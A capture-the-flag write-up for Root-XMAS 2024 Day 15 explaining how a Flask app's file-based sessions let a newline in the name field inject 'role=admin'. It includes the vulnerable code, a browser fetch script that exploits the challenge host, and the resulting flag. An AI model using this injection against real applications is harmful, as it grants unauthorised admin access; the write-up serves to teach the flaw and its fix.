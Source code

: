 ```yaml
---
title: Root-XMAS 2024 Day 15 - New new .. always new
feed: hide
permalink: /RootXMAS_2024_15
date: 15-12-2024
summary: line up for new challenges
---
```

### summary

A simple challenge exploiting credentials file poisoning by adding newlines to user input.
### recon

We arrive on an "under construction" website where the only thing we can do is download sources.

We have a simple python web server, with an API to register, login, access a dashboard and of course an "admin" panel. Of course we cannot create an admin user... legitimately!

if we skim trough the code, we see that an [SQLAlchemy](https://www.sqlalchemy.org/) database is used.

```python
db = SQLAlchemy(app)
...
class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    email = db.Column(db.String(120), unique=True, nullable=False)
	...

def register():
	...
	user = User(email=email, name=name, role='user', password_hash=password_hash)
    db.session.add(user)
    db.session.commit()
...
def login():
	...
    user = User.query.filter_by(email=email).first()
    if user and check_password_hash(user.password_hash, password):
        session_id = create_session(user.email, user.name, user.role)
        response = make_response(jsonify(success="Logged in successfully"))
...
```

OK, so we see a pretty sensible usage of a database, without any apparent injection vulnerability, strange... but wait, what is this `create_session()` function?

```python
def create_session(email, name, role):
	...
    with open(session_file, 'w') as f:
        f.write(f'email={email}\n')
        f.write(f'role={role}\n')
        f.write(f'name={name}\n')
```

So we write user input to a file... and I guess we read it back?

```python
def load_session(session_id):
	...
	with open(session_file, 'r') as f:
        for line in f:
            key, value = line.strip().split('=')
            session_data[key] = value
    return session_data


@app.route('/admin')
def admin():
	...
    session_data = load_session(session_id)


```

Why store data in the db *and* on files? No reason apart from creating vulnerabilities! 
### solution

User input is written directly to the session file, and then this file is read line by line to get session information, like tu user role. The hint was "New new"... newlines?
What if we write a name like `tuxlu\nrole=admin`, we would have a session file like this:

```python
email=a@mail.test
role=user
name=tuxlu
role=admin
```

and the server will overwrite the role with the last "admin" line!

Let's script it, in JS from the browser to change a bit.

```js
headers = { "Content-Type": "application/json" }

await fetch("https://day15.challenges.xmas.root-me.org/register", {
    "headers": headers,
    "body": '{ "email": "aaaaa", "name": "a\\nrole=admin", "password": "aa"}',
    "method": "POST",
});

await fetch("https://day15.challenges.xmas.root-me.org/login", {
    "headers": headers,
    "body": '{ "email": "aaaaa", "password": "aa"}',
    "method": "POST",
});

res = await fetch("https://day15.challenges.xmas.root-me.org/admin");
rt = await res.text()
console.log(rt)
```

```
{"success":"Welcome back admin! Here is the flag: 
RM{I_Thought_Th1s_VUlnerab1ility_W4s_N0t_Imp0rtant}"}
```


Always strip newlines and special characters, even if you don't use files for critical data as user credentials, it can still mess up things, like Log Poisoning!

| Previous day | [[Day 14 - Almost a Gift]]       |
| ------------ | -------------------------------- |
| Next day     | [[Day 16 - Coil under the tree]] |